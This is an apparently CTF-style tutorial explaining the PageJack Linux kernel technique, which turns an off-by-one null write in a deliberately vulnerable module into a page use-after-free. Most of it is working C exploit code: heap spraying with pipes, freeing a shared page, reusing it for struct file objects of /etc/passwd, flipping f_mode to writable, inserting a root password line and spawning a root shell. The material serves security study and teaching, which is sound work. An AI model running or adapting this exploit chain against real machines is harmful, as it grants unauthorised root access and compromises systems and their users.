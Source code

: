 ```yaml
---
title: Linux Kernel Exploitation - PageJack
date: 2025-05-03
categories: [Guide, Linux Kernel Exploitation]
tags: [linux, pwn]
---
```


In this post, I will explain PageJack, a universal and data-only exploitation technique that turns an off-by-one-null into a page UAF. Download the [handouts](https://github.com/r1ru/linux-kernel-exploitation/tree/main/pagejack) beforehand.

## Analysis
The vulnerable LKM provides two commands: `CMD_ALLOC` and `CMD_WRITE`. These commands are used to allocate and write to an object defined as follows:
```c
#define OBJ_SIZE    0x400

struct obj {
    char buf[OBJ_SIZE];
};
```

## Bugs
There is an obvious off-by-one null bug in `obj_write`:
```c
static long obj_write(char *data, size_t size) {
    if (obj == NULL || size > OBJ_SIZE) {
        return -1;
    }
    if (copy_from_user(obj->buf, data, size) != 0) {
        return -1;
    }
    obj->buf[size] = '\0';
    return 0;
}
```

## PageJack
PageJack is a technique that turns an off-by-one null bug into a page UAF. It targets the array of `struct pipe_buffer` allocated in `alloc_pipe_buf`:
```c
// https://elixir.bootlin.com/linux/v6.13/source/fs/pipe.c#L815-L816
struct pipe_inode_info *alloc_pipe_info(void)
{
    struct pipe_inode_info *pipe;
    unsigned long pipe_bufs = PIPE_DEF_BUFFERS;
    ...
    pipe->bufs = kcalloc(pipe_bufs, sizeof(struct pipe_buffer),
                 GFP_KERNEL_ACCOUNT);
    ...
}
```
`struct pipe_buffer` has a pointer to a struct page as its first member:
```c
// https://elixir.bootlin.com/linux/v6.13/source/include/linux/pipe_fs_i.h#L26-L32
struct pipe_buffer {
    struct page *page;
    unsigned int offset, len;
    const struct pipe_buf_operations *ops;
    unsigned int flags;
    unsigned long private;
};
```
Since `struct page` is 0x40 bytes and we have an off-by-one-null primitive, we can overwrite the pointer to point to a different page with a 75% chance. Then, by closing the pipe, we can free a page that another pipe is using. This lets us trigger a page UAF.

PageJack is a very powerful technique that can bypass mitigations like `CONFIG_CFI_CLANG` and the upcoming [`CONFIG_SLAB_VIRTUAL`](https://github.com/thejh/linux/blob/slub-virtual/MITIGATION_README).

## Exploitation
First, we allocate the victim object near `struct pipe_buffer`:
```c
puts("[*] Spraying struct pipe_buffer");
int pipefds[NUM_PIPE_SPRAY][2];
for (int i = 0; i < NUM_PIPE_SPRAY / 2; i++) {
    assert(pipe(pipefds[i]) != -1);
}

puts("[*] Allocating a victim object from kmalloc-1k");
obj_alloc();

puts("[*] Spraying struct pipe_buffer");
for (int i = NUM_PIPE_SPRAY / 2; i < NUM_PIPE_SPRAY; i++) {
    assert(pipe(pipefds[i]) != -1);
}
```
Next, we write values to the allocated pipes. This is necessary in a later step to identify the victim pipe:
```c
puts("[*] Writting to pipes to allocate pages");
for (int i = 0; i < NUM_PIPE_SPRAY; i++) {
    int val = 0xcafebabe + i;
    assert(write(pipefds[i][1], &val, sizeof(val)) != -1);
    assert(write(pipefds[i][1], "deadbeef", 8) != -1);
}
```
There are two reasons why we additionally write "deadbeef". The first reason is to prevent the page from being freed when we later read 4 bytes. If only 4 bytes were written, `anon_pipe_buf_release` would be called in `pipe_read`, causing the page to be freed:
```c

// https://elixir.bootlin.com/linux/v6.13/source/fs/pipe.c#L343-L344
static ssize_t
pipe_read(struct kiocb *iocb, struct iov_iter *to)
{
    ...
            if (!buf->len)
                tail = pipe_update_tail(pipe, buf, tail);
```

The second reason is to overwrite the `f_mode` member of `struct file` in the final step.
Since `pipe_write` writes from `len + offset`, and the offset of the `f_mode` member is 0xc, we adjust the write position:
```c
// https://elixir.bootlin.com/linux/v6.13/source/fs/pipe.c#L477-L485
static ssize_t
pipe_write(struct kiocb *iocb, struct iov_iter *from)
{
    ...
        int offset = buf->offset + buf->len;

        if ((buf->flags & PIPE_BUF_FLAG_CAN_MERGE) &&
            offset + chars <= PAGE_SIZE) {
            ret = pipe_buf_confirm(pipe, buf);
            if (ret)
                goto out;

            ret = copy_page_from_iter(buf->page, offset, chars, from);
```
![win](/assets/img/posts/2025-05-03-6/page.png)

Next, we trigger the off-by-one-null:
```c
puts("[*] Overwitting pipe->bufs[0].page");
char zero[0x400] = {};
obj_write(zero, 0x400);
```
Next, we identify the victim pipe by reading from the pipe and checking if the value differs from the one we wrote:
```c
puts("[*] Locating the victim pipe");
int victim_pipefd = -1;
int origin_pipefd = -1;
for (int i = 0; i < NUM_PIPE_SPRAY; i++) {
    int val;

    assert(read(pipefds[i][0], &val, 4) != -1);
    if (val != 0xcafebabe + i) {
        victim_pipefd = i;
        origin_pipefd = val - 0xcafebabe;
        printf("[+] Found: victim_pipefd = %d, origin_pipefd = %d\n", victim_pipefd, origin_pipefd);
        break;
    }
}
if (victim_pipefd == -1) {
    puts("[-] Failed to locate the victim pipe");
    exit(0);
}
```
Next, we close one of the pipes that shares the same pointer to the page:
```c
puts("[*] Closing the original pipe");
assert(close(pipefds[origin_pipefd][0]) != -1);
assert(close(pipefds[origin_pipefd][1]) != -1);
```
Next, we spray `struct file` objects for `/etc/passwd` to make the freed page be used as a slab in the `filp` cache:
```c
puts("[*] Spraying struct file of /etc/passwd");
int filefds[NUM_SPRAY_FILE];
for (int i = 0; i < NUM_SPRAY_FILE; i++) {
    filefds[i]= open("/etc/passwd", O_RDONLY);
    assert(filefds[i] != -1);
}
```
Finally, we use the victim pipe to overwrite the `f_mode` member, making `/etc/passwd` writable, and then overwrite it.
```c
puts("[*] Overwitting f_mode");
int fake_f_mode = 0x84f801f;
assert(write(pipefds[victim_pipefd][1], &fake_f_mode, 4) != -1);

char payload[] = "root:$1$deadbeef$j9ep0CjBGivAnD5z6l5rr0:0:0:root:/root:/bin/sh\n";
printf("[*] Overwriting /etc/passwd with %s", payload);
for (int i = 0; i < NUM_SPRAY_FILE; i++) {
    if (write(filefds[i], payload, sizeof(payload)) != -1) {
        puts("[+] Success");
        puts("[+] You can now log in as root with the password: cafebabe");
        char *argv[] = {"/bin/sh", NULL};
        execve(argv[0], argv, NULL);
    }
}
```
By running this exploit, we can log in as a root user with the password `cafebabe` and see the flag:
![win](/assets/img/posts/2025-05-03-6/win.png)

## References
1. Zhiyun Qian, Jiayi Hu, Jinmeng Zhou, Qi Tang and Wenbo Shen. 2024. PageJack: A Powerful Exploit Technique With Page-Level UAF. https://i.blackhat.com/BH-US-24/Presentations/US24-Qian-PageJack-A-Powerful-Exploit-Technique-With-Page-Level-UAF-Thursday.pdf
2. arttnba3. 2023. 【CTF.0x08】D^ 3CTF2023 d3kcache: From null-byte cross-cache overflow to infinite arbitrary read & write. https://blog.arttnba3.cn/2023/05/02/CTF-0X08_D3CTF2023_D3KCACHE/